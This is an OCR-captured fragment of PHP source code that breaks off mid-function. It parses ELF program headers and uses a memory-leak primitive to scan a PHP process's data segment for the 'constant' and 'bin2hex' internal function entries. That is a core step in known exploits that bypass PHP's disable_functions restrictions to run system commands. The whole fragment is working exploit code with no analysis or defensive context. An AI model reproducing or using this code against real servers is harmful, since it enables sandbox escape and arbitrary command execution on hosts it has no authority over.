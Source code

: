 ```php

​        \# handle pie

​        $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;

​        $data_size = $p_memsz;

​      } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec

​        $text_size = $p_memsz;

​      }

​    }

 

​    if(!$data_addr || !$text_size || !$data_size)

​      return false;

 

​    return [$data_addr, $text_size, $data_size];

  }

 

  function get_basic_funcs($base, $elf) {

​    list($data_addr, $text_size, $data_size) = $elf;

​    for($i = 0; $i < $data_size / 8; $i++) {

​      $leak = leak($data_addr, $i * 8);

​      if($leak - $base > 0 && $leak - $base < $data_addr - $base) {

​        $deref = leak($leak);

​        \# 'constant' constant check

​        if($deref != 0x746e6174736e6f63)

​          continue;

​      } else continue;

 

​      $leak = leak($data_addr, ($i + 4) * 8);

​      if($leak - $base > 0 && $leak - $base < $data_addr - $base) {

​        $deref = leak($leak);

​        \# 'bin2hex' constant check

​        if($deref != 0x786568326e6962)

​          continue;

```